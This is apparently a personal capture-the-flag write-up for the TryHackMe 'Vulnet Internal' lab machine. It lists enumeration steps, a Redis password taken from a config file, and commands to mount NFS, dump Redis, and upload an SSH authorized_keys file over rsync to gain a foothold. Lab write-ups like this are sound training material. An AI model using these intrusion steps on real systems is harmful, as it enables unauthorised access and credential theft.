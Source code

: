 # 35. Vulnet Internal 🧭
Names | Details
--------|-----
Source | tryhackme
Level | medium
Os | linux

**Notes :**




## Gaining Access 😉
- smb port 139 open, used enum4linux to get username, flag got on further enum
- port 111 open which running rcpbind [further reference](https://book.hacktricks.xyz/pentesting/pentesting-rpcbind)
- redis database running on default port
- nfs running, which can be mouted using [[#Important commands 🔥]]1
- redis.conf file contains password
- redis to get internal flag [[#Important commands 🔥]]3
- command to list auths `lrange authlist 0 -1` reddis
- used rsync to read uesr.txt [[#Important commands 🔥]]4
- ssh keygen
- Then I renamed my “.pub” file to “authorized_keys” so that way I was able to upload it directly with [[#Important commands 🔥]]5
- 



## Maintaining Access 🥷
- 

## Important commands 🔥
1. mount nfs
	```
	sudo mount -t nfs 10.10.51.255:/opt/conf conf
	```
2. redis login
	```
	redis-cli -h ip
	AUTH <pass>
	info
	```
3. redis-dump
	```
	redis-dump -h 10.10.51.255 -a B65Hx562F@ggAZ@F
	```
4. rsync
	```
	rsync rsync://rsync-connect@'10.10.51.255'/files/sys-internal/
	rsync -v rsync://rsync-connect@'10.10.51.255'/files/sys-internal/user.txt .
	```
5. uploading ssh with rsync
	```
	rsync -a /home/nms/Desktop/Boxes/vulnetinternal/authorized_keys rsync://rsync-connect@'10.10.51.255'/files/sys-internal/.ssh/
	```
## Post Exploitation ✴️
- first flag on smb
- reffer [[#Important commands 🔥]]3
- User flag : /home/user
- Root flag : /root/root
## Tips 💡
- just try with sudo 
- smb shares can be listed `smbclient -L //'machine-ip'/ -N`
- check `/ ` last
- 


--------------------------------
**By Nibras Muhammed** 🤓🖥️
